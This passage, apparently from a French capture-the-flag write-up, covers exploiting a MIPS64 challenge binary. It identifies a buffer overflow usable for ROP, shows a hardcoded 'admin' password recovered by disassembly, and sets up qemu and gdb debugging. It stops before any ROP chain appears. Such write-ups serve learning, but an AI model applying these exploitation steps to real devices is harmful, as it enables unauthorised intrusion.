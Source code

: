### Fonction `Connect_TO_WIFI()`
- Vulnérabilité : Buffer Overflow / ROP
- Utilité : Grâce à la précédente augmentation du paramètre len, la fonction fgets prend en paramètre une len plus grande que prévue nous permettant d'effectuer un rop


## Trouver le mot de passe admin

Afin de pouvoir réécrire le champ `len` dans la fonction `Change_Wifi_Key` il nous faut déterminer le mot de passe administrateur.
On recherche ainsi le mot de passe dans le binaire.

Une chance qu'il soit écrit en claire !

````text
.text:0000000000001B08                 daddiu  $a1, $v0, aAdmin  # "admin"
.text:0000000000001B0C                 ld      $a0, 0x18+var_18($fp)  # s1
.text:0000000000001B10                 dla     $v0, strcmp      # Load 64-bit address
````

## ROP

### Déterminer la stack

La prochaine étape est d'exécuter un ROP afin d'avoir accès aux communications.

On va lancer le binaire avec l'option -g (attendre la connexion gdb sur le port)

````shell
 qemu-mips64el -L /usr/mips64el-linux-gnuabi64/ -g 4000 ./vuln
````

Afin de simplifier le debugging, on met en place un .gdbinit

````shell
└─$ cat .gdbinit
set disassembly-flavor intel
set architecture mips
file vuln
target remote localhost:4000
info proc map
````

On va lancer gdb et mettre un breakpoint sur la fonction _Connect_TO_WIFI_

````shell
└─$ gdb-multiarch
GNU gdb (Debian 13.2-1) 13.2
Copyright (C) 2023 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
The target architecture is set to "mips".
Reading /lib64/ld.so.1 from remote target...
warning: File transfers from remote targets can be slow. Use "set sysroot" to access files locally instead.
Reading /lib64/ld.so.1 from remote target...
````
